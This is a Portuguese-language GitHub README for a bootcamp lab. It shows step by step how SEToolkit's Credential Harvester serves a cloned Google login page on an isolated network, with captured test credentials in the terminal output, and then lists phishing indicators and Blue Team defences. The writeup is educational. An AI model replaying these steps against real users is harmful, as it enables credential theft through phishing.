










🌐 **Languages:** [Português](README.md) | [English](README.en.md) | [Español](README.es.md)

# 🎣 Laboratório de Cibersegurança: Simulação de Phishing e Credential Harvesting com SEToolkit no Kali Linux

Projeto prático desenvolvido como parte do bootcamp **Santander Bootcamp - Cibersegurança** na plataforma [DIO](https://dio.me).

---

## ⚖️ Aviso Legal (Disclaimer)

> **Aviso:** Todo o conteúdo deste laboratório foi executado estritamente em um ambiente isolado e controlado (rede interna de máquinas virtuais no VirtualBox), com o propósito exclusivo de aprendizado técnico em cibersegurança, análise de vetores de engenharia social e desenvolvimento de defesas, em total conformidade com as boas práticas éticas e a legislação vigente (Lei nº 12.737/2012 - Delitos Informáticos). As ferramentas e técnicas aqui documentadas jamais devem ser utilizadas em ambientes de produção ou contra alvos sem autorização prévia por escrito.

---

## 🎯 Objetivos do Projeto

- Compreender a anatomia e os mecanismos técnicos de ataques de **Engenharia Social** e **Credential Harvesting** (coleta de credenciais).
- Operar a ferramenta **Social-Engineer Toolkit (SEToolkit)** no **Kali Linux** em um ambiente controlado de testes.
- Simular a clonagem de páginas de autenticação e analisar o comportamento de redirecionamento HTTP POST.
- Documentar os desafios reais de segurança web encontrados durante o laboratório (bloqueios de WAF, anti-scraping e certificados SSL).
- Identificar **Indicadores de Comprometimento (IoC)** visíveis ao usuário final.
- Estruturar contramedidas defensivas e recomendações de **Blue Team** para mitigar riscos de phishing corporativo e pessoal.

---

## 🖥️ Topologia do Laboratório e Configuração de Rede

| Ativo / Máquina | Sistema Operacional | Função no Laboratório | Endereço IP |
| :--- | :--- | :--- | :--- |
| **Atacante / Servidor** | Kali Linux (VM VirtualBox) | Execução do SEToolkit e listener HTTP (Porta 80) | `192.168.1.101` |
| **Alvo / Vítima** | Windows 10 (Host / Navegador) | Simulação de acesso do usuário e submissão de credenciais | `192.168.1.103` |

Ambas as máquinas operam conectadas ao mesmo segmento de rede local controlado para a realização segura dos testes.

---

## 🔬 Execução Passo a Passo e Evidências Técnicas

### Etapa 1: Inicialização do SEToolkit
O **SEToolkit (Social-Engineer Toolkit)** é executado com privilégios de superusuário (`root`), necessários para abrir listeners na porta privilegiada 80 (HTTP) e gerenciar serviços de rede.

```bash
sudo setoolkit
```

Ao iniciar, o framework exibe o menu principal com suas opções modulares.



---

### Etapa 2: Seleção do Módulo de Engenharia Social
No menu principal, é selecionada a opção **`1) Social-Engineering Attacks`**, módulo que reúne vetores focados na exploração do elo humano da segurança da informação.

```text
set> 1
```



---

### Etapa 3: Seleção do Vetor de Ataque Web (*Website Attack Vectors*)
Dentre os vetores disponíveis (spear-phishing, mídias infectadas, pontos de acesso sem fio), foi escolhido o vetor **`2) Website Attack Vectors`**, especializado na criação e hospedagem de interfaces web fraudulentas.

```text
set> 2
```



---

### Etapa 4: Escolha do Método *Credential Harvester*
No menu de ataques web, foi selecionada a opção **`3) Credential Harvester Attack Method`**. Esse método configura um servidor web que clona ou simula um formulário de login e intercepta todas as requisições `POST` contendo nomes de usuário e senhas digitadas.

```text
set:webattack> 3
```



---

### Etapa 5: Seleção Inicial do Método *Site Cloner*
Para a primeira tentativa prática, foi escolhida a opção **`2) Site Cloner`**, cujo objetivo é raspar dinamicamente o código-fonte HTML/CSS de uma página web real informada pelo operador.

```text
set:webattack> 2
```



---

### Etapa 6: Configuração de Rede e Alvo Inicial (Tentativa com Facebook)
Nesta etapa, é configurado o IP de retorno para o envio dos dados capturados (`192.168.1.101`) e informada a URL alvo do laboratório (`http://www.facebook.com` / `https://m.facebook.com`).

```text
set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.101]: 192.168.1.101
set:webattack> Enter the url to clone: http://www.facebook.com
```



---

### Etapa 7: Diagnóstico de Proteções Anti-Scraping e Transição para Web Templates
Durante o teste de clonagem direta do Facebook, a ferramenta retornou erro (`Unable to clone this specific site`). 

**Análise do problema:** Grandes plataformas como a Meta empregam proteções avançadas de perímetro, incluindo **WAF (Web Application Firewall)**, validações rígidas de User-Agent, cabeçalhos de navegador e checagens anti-bot que impedem raspagens automatizadas via scripts simples.

**Decisão técnica:** Para contornar essa barreira e atingir o objetivo pedagógico de demonstrar o *Credential Harvesting*, migrou-se para a opção **`1) Web Templates`**, selecionando o template oficial integrado do **Google (Opção 2)**. Com essa escolha, o SEToolkit subiu o serviço local com sucesso na porta 80.

```text
set:webattack> Select a template: 2
[*] Cloning the website: http://www.google.com
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```



---

### Etapa 8: Acesso da Vítima à Página Clonada no Navegador
Na máquina cliente de teste (`192.168.1.103`), o navegador web foi apontado para o endereço do atacante: `http://192.168.1.101`.

A página de autenticação do Google foi renderizada de forma idêntica à interface oficial, porém com **dois grandes indicadores visuais de fraude (IoC)**:
1. **Ausência de HTTPS:** O navegador destaca o alerta **"Não seguro"**, já que a página opera sobre HTTP puro sem certificado SSL/TLS válido para o domínio Google.
2. **Endereço na barra de URL:** Exibe o endereço IP bruto local (`192.168.1.101`) em vez do domínio oficial `accounts.google.com`.



---

### Etapa 9: Captura de Credenciais de Teste no Terminal
Para simular a interação do usuário, foram inseridas credenciais fictícias de teste no formulário:
- **E-mail:** `aluno.teste@gmail.com`
- **Senha:** `Senha1234`

Ao clicar em **Sign in**, os dados foram submetidos via requisição HTTP `POST` diretamente para o listener do Kali Linux. O terminal do SEToolkit identificou os campos em tempo real e gravou o relatório correspondente:

```text
[*] WE GOT A HIT! Printing the output:
PARAM: continue=https://accounts.google.com/o/oauth2/auth?...
POSSIBLE USERNAME FIELD FOUND: Email=aluno.teste@gmail.com
POSSIBLE PASSWORD FIELD FOUND: Passwd=Senha1234
[*] File in XML format exported to /root/.set/reports/2026-11-25 00:58:08.961381.xml for your reading pleasure
```



---

### Etapa 10: Redirecionamento da Vítima para a Página Oficial
Com o objetivo de manter a ilusão de legitimidade e retardar a percepção do ataque pela vítima, o SEToolkit executou uma resposta HTTP com redirecionamento automático (`Location: google.com`).

O navegador do usuário foi imediatamente direcionado para a página inicial oficial do Google (`https://www.google.com`), gerando a falsa impressão de que se tratava apenas de uma expiração de sessão rotineira.



---

## 🧠 Desafios Técnicos e Aprendizados do Laboratório

1. **Evolução das Defesas Web (Anti-Scraping & WAF):**
   A tentativa inicial de clonagem do Facebook falhou devido às proteções perimetrais modernas. Isso evidenciou que ataques clássicos baseados em clonadores automáticos de páginas estão cada vez mais obsoletos contra serviços que utilizam validações de integridade de cliente, *Cloudflare* e tokens dinâmicos.
2. **Configuração de Parâmetros de Redirecionamento (`HARVESTER_REDIRECT`):**
   Durante a execução, observou-se que parâmetros mal configurados no arquivo `/etc/setoolkit/set.config` podem causar erros de resolução DNS (como tentativas de redirecionamento para destinos inválidos). O correto entendimento do fluxo de cabeçalhos HTTP (`302 Found` / `Location`) foi fundamental para garantir o comportamento esperado do laboratório.
3. **Visibilidade de Tráfego em Texto Claro (HTTP):**
   A captura instantânea das credenciais no terminal comprovou a fragilidade do tráfego não criptografado. Qualquer agente com capacidade de interceptação de tráfego na rede local obtém acesso imediato a dados submetidos via HTTP.

---

## 🛡️ Matriz de Mitigação e Defesa em Camadas (Blue Team)

Para neutralizar campanhas de phishing e roubo de credenciais como a demonstrada neste laboratório, as organizações devem adotar uma abordagem de **Defesa em Profundidade (*Defense in Depth*)**:

### 1. Autenticação Moderna e Resistente a Phishing
- **MFA Baseado em FIDO2 / WebAuthn (Passkeys e Chaves Físicas):** Métodos tradicionais de MFA (como códigos SMS ou OTP via aplicativos) continuam vulneráveis a técnicas de phishing de proxy reverso (*Adversary-in-the-Middle - AitM*). Já as chaves de segurança FIDO2 vinculam a criptografia ao domínio real (*Origin-Bound Authentication*), tornando matematicamente impossível autenticar uma credencial em um site falso como `192.168.1.101`.
- **Eliminação de Senhas (*Passwordless*):** Transição progressiva para métodos de autenticação biométrica e chaves criptográficas que eliminam o compartilhamento de segredos estáticos compartilháveis.

### 2. Segurança de E-mail e Autenticação de Domínio
- **Políticas Rígidas de SPF, DKIM e DMARC:** Configuração de registros DNS que impedem que invasores forjem e-mails legítimos corporativos (`p=reject`), impedindo a entrega de mensagens de *spear-phishing* na caixa de entrada.
- **Gateways Seguros de E-mail (SEG):** Implementação de ferramentas avançadas com inspeção dinâmica de links no momento do clique (*Time-of-Click Protection*), desarmando URLs maliciosas antes do acesso.

### 3. Controles em Nível de Endpoint e Rede
- **Filtragem de DNS e Inteligência de Ameaças:** Bloqueio automático de conexões para domínios recém-registrados (*Newly Registered Domains - NRDs*) e endereços IP sem histórico de reputação.
- **Proteção do Navegador (Safe Browsing e SmartScreen):** Ativação obrigatória de mecanismos integrados aos navegadores corporativos que alertam sobre sites sem certificados TLS e páginas categorizadas como fraudulentas.

### 4. Cultura e Conscientização de Segurança (*Human Firewall*)
- **Treinamento Contínuo com Simulações Realistas:** Realização periódica de testes de phishing autorizados para educar colaboradores sobre os sinais visuais de alerta (erros de digitação em domínios, ausência de HTTPS, senso de urgência artificial).
- **Cultura de Reporte Sem Punição:** Canais acessíveis e rápidos (como botões de reporte de e-mail suspeito) para que qualquer usuário possa acionar o time de resposta a incidentes (SOC/CSIRT) aos primeiros sinais de ataque.

---

## 📚 Conclusão

A execução deste laboratório proporcionou uma visão completa do ciclo de exploração de engenharia social através de páginas de autenticação clonadas. Ficou evidente que a segurança das credenciais de um usuário não depende exclusivamente da complexidade de sua senha, mas sim da integridade do canal de comunicação e da capacidade de discernimento humano diante de interfaces fraudulentas. 

A mitigação definitiva desse vetor reside na convergência entre tecnologias criptográficas modernas (FIDO2) e um programa maduro de governança e conscientização em cibersegurança.

---

## 🔗 Referências

- [DIO - Digital Innovation One](https://dio.me)
- [Repositório Oficial do TrustedSec SEToolkit](https://github.com/trustedsec/social-engineer-toolkit)
- [Documentação Oficial do Kali Linux](https://www.kali.org/tools/set/)
